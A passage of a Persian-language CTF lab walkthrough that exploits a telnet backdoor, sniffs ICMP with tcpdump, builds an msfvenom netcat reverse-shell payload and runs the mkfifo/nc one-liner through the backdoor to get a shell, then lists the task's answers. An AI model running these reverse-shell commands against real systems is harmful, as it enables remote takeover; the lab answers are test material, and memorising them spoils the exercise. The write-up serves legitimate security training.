 		1. ![[Pasted image 20240713195756.png]]
	6. همچنین میتوانیم از OpenVPN و برقراری تانل هم برای متصل شدن به این ماشین و سپس Backdoor درون آن استفاده کنیم.
2. *Listening Telnet Communications with tcpdump on Kali*
	1. حال که به ماشین تارگت متصل شده ایم میتوانیم کامند های مختلفی را بر روی ماشین تارگت اجرا کنیم. در اولین قدم یک شنود `tcpdump` راه اندازی میکنیم و از ماشین تارگت Kali را Ping میگیریم.
	2. در واقع اگر الان `ifconfig` را در Kali اجرا کنیم میتوانیم مشاهده کنیم که اینترفیس جدیدی بنام `tun0` اضافه شده است که از طریق آن به Backdoor در ماشین تارگت متصل شده ایم. حال میخواهیم از طریق این اینترفیس شنود بسته های icmp را راه اندازی کنیم >>
	3. `sudo tcpdump ip proto \\icmp -i tun0`
		1. ![[Pasted image 20240713200442.png]]
	4. این کامند IP, Protocol تمام بسته های ICMP را شنود میکند. در واقع هر کامند `ping` که در کانکشن Telnet تایپ شود را شنود میکند. 
	5. کافیست به ترمینال که کانکشن Telnet در آن بود باز گردیم و در telnet از ماشین تارگت، اینترفیس `tun0` در `kali` را پینگ بگیریم تا بتوانیم نتیجه شنود را در ترمینال دوم که در حال tcpdump Listening است مشاهده کنیم:
		1. `telnet 10.10.5.166 8012`
		2. `telnet> .RUN ping 10.8.64.134 -c 1`
			1. ![[Pasted image 20240713201318.png]]
		3. Now go Back in Terminal 2 - `tcpdump listening results`
			1. ![[Pasted image 20240713201340.png]]
3. *Generate Reverse Shell Payload using `msfvenom`*
	0. در این مرحله باید با استفاده از `msfvenom` یک Payload ایجاد کنیم. در این payload برقراری shell بوسیله کامند `netcat` انجام میشود و ابزار `msfvenom` این Payload را Encrypted میکند.
	1. *قدم اول* باید تمام Payload ها که برای `Netcat` هستند را لیست کنیم >>
		1. `msfvenom -l payloads | grep netcat`
			1. ![[Pasted image 20240713202054.png]]
		2. سپس باید Payload مناسب را انتخاب کنیم که در اینجا میخواهیم از `cmd/unix/reverse_snetcat` استفاده کنیم.
	2. *قدم دوم* پس از یافتن و انتخاب Payload باید Options های آنرا تنظیم کنیم و Payload را تولید کنیم >>
		1. `msfvenom -p cmd/unix/reverse_netcat LHOST=10.8.64.134 LPORT=444`
			1. ![[Pasted image 20240713202405.png]]
		2. حال Payload با موفقیت تولید و کافیست کامند های Payload را کپی کنیم:
			1. `mkfifo /tmp/msnht; nc 10.8.64.134 444 0</tmp/msnht | /bin/sh >/tmp/msnht 2>&1; rm /tmp/msnht`
				1. ![[Pasted image 20240713202447.png]]
	3. *قدم سوم* حال باید ماشین Kali را به حالت Listening Netcat ببریم >> 
		1. دقت کنید که باید ماشین در پورتی به حالت Listening ببریم که در  Payload در `LPORT` مشخص کردیم.
		2. `nc -lnvp 444`
			1. ![[Pasted image 20240713202739.png]]
		3. ترمینال را Minimize میکنیم تا payload را از طریق backdoor در ماشین تارگت اجرا کنیم.
	4. *قدم چهارم* حال بابد Payload را از طریق backdoor در ماشین تارگت اجرا کنیم >>
		1. `telnet 10.10.174.31 8012`
		2. `.RUN mkfifo /tmp/msnht; nc 10.8.64.134 444 0</tmp/msnht | /bin/sh >/tmp/msnht 2>&1; rm /tmp/msnht`
		3. با اجرای Payload، در ترمینال اول که Netcat در حالت Listening بود میتواند به شل ماشین تارگت دسترسی بگیرد و در واقع هر کامندی اجرا کند در ماشین تارگت از طریق backdoor اجرا میشود.
			1. ![[Pasted image 20240713203541.png]]
	5. *قدم پنجم*حال در ترمینال در حال شنود Netcat(ترمینال دوم) که پس از اجرای Payload به Shell Target تغییر پیدا کرده است، در واقع یک Reverse Shell از ماشین تارگت از طریق اجرای Payload در  Backdoor، در ترمینال دوم برای ما در دسترس است >>
		1. در این مرحله باید فلگ مرحله را پیدا کنیم. کافیست از فایل های درون ماشین تارگت `ls` بگیریم و سپس فایل مورد نظر را باز میکنیم و مقدار فلگ را کپی کنیم تا در جواب سوالات بنویسیم:
			1. ![[Pasted image 20240713204050.png]]
	6. پس از یافتن flag 🚩 برای جواب سوالا میرویم.
4. *TASK 6 Q_&_A*
	1. *سوال اول*
		1. How many port open? `1`
	2. *سوال دوم* 
		1. Whats Port? `8012`
	3. *سوال سوم*
		1. Whats Protocol of Open Port? `tcp`
	4. *سوال چهارم*
		1. Rerun nmap without `-p-`, how many port open under 1000? `0`